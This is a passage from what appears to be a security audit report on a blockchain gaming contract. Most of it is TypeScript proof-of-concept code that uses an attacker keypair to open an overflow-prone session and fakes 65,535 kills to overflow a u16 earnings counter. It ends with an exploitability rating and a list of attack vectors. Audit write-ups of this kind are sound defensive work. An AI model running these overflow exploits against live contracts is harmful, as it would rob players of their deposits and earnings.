 ```typescript
                )
                .accounts({
                    gameSession: this.getSessionPDA("overflow_attack_session"),
                    gameServer: this.attackerKeypair.publicKey,
                    // ... other accounts
                })
                .signers([this.attackerKeypair])
                .rpc();

            console.log("Created overflow-vulnerable session");

            // 3. Players join with massive bets
            // 4. When winnings distributed: bet * 2 = overflow to 0
            // 5. Winners get 0 tokens despite huge deposits

        } catch (error) {
            console.log("Overflow attack failed:", error);
        }
    }

    async exploitEarningsOverflow(): Promise<void> {
        // 1. Join game and rack up maximum kills
        const sessionId = "earnings_overflow_session";

        // 2. Manipulate kill count to approach u16::MAX
        for (let i = 0; i < 65535; i++) {
            await this.recordFakeKill(sessionId);
        }

        // 3. One more kill causes earnings overflow
        await this.recordFakeKill(sessionId);

        // 4. Player with most kills gets 0 earnings due to overflow
    }
}
```

## ⚡ Exploitability Analysis

**Likelihood**: High (arithmetic is used extensively)
**Complexity**: Medium (requires understanding of integer limits)
**Prerequisites**:
- Knowledge of integer overflow behavior
- Ability to create edge case inputs
- Understanding of calculation flows

**Attack Vectors**:
- [x] **Large bet amount exploitation**
- [x] **Earnings calculation overflow**
- [x] **Accumulation overflow attacks**
- [x] **Multiplication chain exploitation**
